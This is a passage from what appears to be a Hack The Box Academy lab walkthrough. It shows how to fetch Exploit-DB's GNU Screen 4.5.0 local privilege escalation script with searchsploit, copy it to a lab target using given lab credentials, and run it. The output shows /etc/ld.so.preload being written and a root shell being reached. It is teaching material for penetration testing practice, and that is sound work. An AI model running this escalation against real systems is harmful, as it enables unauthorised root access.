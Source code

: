 ```shell
searchsploit -m "linux/local/41154.sh"
```

```
┌─[us-academy-1]─[10.10.14.12]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -m linux/local/41154.sh

  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable

Copied to: /home/htb-ac413848/41154.sh
```

Students then need to transfer the executable exploit to `STMIP` using any file transfer method, such as with `scp`, utilizing the credentials `htb-student:Academy_LLPE!`:

Code: shell

```shell
scp 41154.sh htb-student@PWNIP:/home/htb-student/
```

```
┌─[us-academy-1]─[10.10.14.12]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ scp 41154.sh htb-student@10.129.2.210:/home/htb-student/

htb-student@10.129.2.210's password: 
41154.sh			100% 1149    13.1KB/s   00:00
```

Once successfully transferred, students need to run the exploit on the spawned target machine:

Code: shell

```shell
./41154.sh
```

```
htb-student@NIX02:~$ ./41154.sh 

~ gnu/screenroot ~
[+] First, we create our shell and library...

<SNIP>

[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# 
```
